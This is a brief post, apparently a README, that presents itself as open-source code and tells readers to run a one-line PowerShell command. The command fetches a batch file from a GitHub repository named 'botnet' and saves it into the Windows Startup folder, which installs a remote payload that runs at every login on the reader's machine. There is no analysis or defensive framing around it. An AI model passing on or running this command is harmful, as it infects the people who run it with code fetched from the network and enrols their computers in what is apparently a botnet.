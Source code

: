 >OPEN SOURCE!!!

# CODE: (RUN ON CMD OR A BATCH FILE)
```
powershell -command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/unfunnylaugh/botnet/main/code.bat' -OutFile 'C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup'"
```
